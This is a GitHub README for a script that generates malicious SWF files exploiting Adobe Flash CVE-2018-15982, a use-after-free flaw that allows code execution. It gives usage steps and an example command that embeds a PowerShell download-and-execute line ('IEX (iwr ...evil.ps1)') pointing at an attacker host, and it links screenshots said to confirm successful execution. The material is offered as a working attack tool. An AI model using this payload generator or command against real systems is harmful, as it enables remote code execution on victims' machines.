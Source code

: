 # Adobe Flash CVE-2018-15982

Script to dynamically create a swf payload for CVE-2018-15982.

The script creates a swf payload which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

*https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/

*https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982


Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
  


## Example


Command to download a file:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/cmd.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

Confirming successful execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec-confirm.png)
